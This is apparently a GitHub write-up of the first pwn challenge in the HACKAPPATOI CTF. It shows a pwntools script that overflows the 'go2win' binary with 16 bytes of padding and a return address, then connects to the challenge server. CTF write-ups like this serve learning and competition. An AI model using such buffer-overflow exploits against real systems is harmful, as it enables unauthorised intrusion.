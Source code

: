 # HACKAPPATOI-CTF

## Pwn
===============

## PwN 1 
The first chall a buffer overflow, attachments are one binary file. `go2win`
<img src="https://github.com/q5fj/Pwn/assets/88992167/be74445f-eef9-4e89-a757-d2b4216a8807">
<img src="https://github.com/q5fj/Pwn/assets/88992167/a1ab01e1-ce27-45c3-90f1-6d5aa3f8b390">
```
import shutup; shutup.please()
from pwn import *

elf = context.binary = ELF('./go2win')
io = elf.process()

io = remote('92.246.89.201', 10003)

offset = 16

payload = b''
payload += b'A' * offset 
payload += p64(0x47f7a0)

io.sendline(payload)
io.interactive()
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/04fba138-c8a4-4797-96e9-7938cde7ae9c">




